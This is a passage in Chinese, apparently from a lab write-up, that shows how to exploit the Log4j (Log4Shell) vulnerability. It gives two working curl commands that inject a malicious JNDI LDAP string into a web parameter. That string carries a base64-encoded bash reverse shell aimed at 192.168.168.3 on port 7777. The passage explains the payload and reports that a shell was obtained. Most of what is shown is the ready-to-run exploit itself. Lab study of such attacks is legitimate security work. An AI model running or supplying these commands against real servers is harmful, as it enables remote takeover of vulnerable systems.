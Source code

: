 #### 3. 构造攻击请求

##### 原始 PPT 中的命令：
```bash
curl http://192.168.20.6:35536/hello -d 'payload=${jndi:ldap://192.168.168.3:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.168.3/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```

##### 修改后的命令（用于避免 Shell 解析问题）：
```bash
curl -G --data-urlencode "payload=\${jndi:ldap://192.168.168.3:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.168.3/7777 0>&1' | base64 | tr -d '\n' | sed 's/+/%2B/g' | sed 's/=/%3D/g')}" http://192.168.20.6:35536/hello
```
![1741599405269](image/record/1741599405269.png)

##### Payload 说明：
- 使用 `${jndi:ldap://...}` 构造恶意 JNDI 字符串。
- 将反向 shell 命令 `bash -i >& /dev/tcp/192.168.168.3/7777 0>&1` 转换为 Base64 编码，以适配 URL 参数格式。
- 目标服务器执行该 payload 后，会尝试连接攻击者的 IP 地址 `192.168.168.3` 和端口 `7777`。

##### 实验结果：
![1741599479868](image/record/1741599479868.png)
![1741599539331](image/record/1741599539331.png)
![1741599577815](image/record/1741599577815.png)
- 请求返回 “ok”，表示服务端已接收 payload。
- 成功建立反向 shell 连接，验证了 Log4j 漏洞可被成功利用。
